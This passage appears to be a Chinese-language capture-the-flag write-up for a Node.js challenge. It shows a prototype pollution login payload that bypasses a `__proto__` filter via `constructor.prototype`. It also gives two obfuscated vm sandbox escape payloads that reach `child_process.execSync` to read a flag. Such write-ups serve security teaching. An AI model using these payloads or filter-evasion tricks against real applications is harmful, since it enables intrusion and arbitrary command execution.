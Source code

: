 ```javascript
function clone(source) {
    return merge({}, source)
}
```

根据一些参考文章, 很容易就可以知道这里存在原型链污染, 但是 `__proto__` 关键词被过滤了

如果你对原型链这个概念稍微做一点深入了解, 就可以知道, 对于一个实例对象, 它的 `__proto__` 就等于 `constructor.prototype` (或者仔细搜一搜也能在网上找到现成的 payload), 用这个就可以绕过上面对 `__proto__` 关键词的过滤

先注册一个 test 用户, 在登录时 POST 如下内容, 污染 admins 对象, 使得 `username in admins` 表达式的结果为 True

```json
{
    "username": "test",
    "password": "test",
    "constructor": {
        "prototype": {
            "test": "123"
        }
    }
}
```

然后是一个简单的 vm 沙箱逃逸

https://xz.aliyun.com/t/11859

代码会 catch vm 沙箱执行时抛出的异常, 并访问异常的 message 属性

那么结合上面的文章, 可以通过 throw 抛出对象的思路, 拿到 `arguments.callee.caller` (指向当前函数的调用者), 然后拿到沙箱外的 process 对象, 最终实现 RCE

waf 函数有一些简单的关键词过滤, 不过因为 Javascript 语言本身非常灵活, 所以可以使用中括号 + 字符串拼接的形式绕过

https://www.anquanke.com/post/id/237032

下面两种方式都行

```javascript
// method 1
throw new Proxy({}, { // Proxy 对象用于创建对某一对象的代理, 以实现属性和方法的拦截
    get: function(){ // 访问这个对象的任意一个属性都会执行 get 指向的函数
        const c = arguments.callee.caller
        const p = (c['constru'+'ctor']['constru'+'ctor']('return pro'+'cess'))()
        return p['mainM'+'odule']['requi'+'re']('child_pr'+'ocess')['ex'+'ecSync']('cat /flag').toString();
    }
})
// method 2
let obj = {} // 针对该对象的 message 属性定义一个 getter, 当访问 obj.message 时会调用对应的函数
obj.__defineGetter__('message', function(){
    const c = arguments.callee.caller
    const p = (c['constru'+'ctor']['constru'+'ctor']('return pro'+'cess'))()
    return p['mainM'+'odule']['requi'+'re']('child_pr'+'ocess')['ex'+'ecSync']('cat /flag').toString();
})
throw obj
```
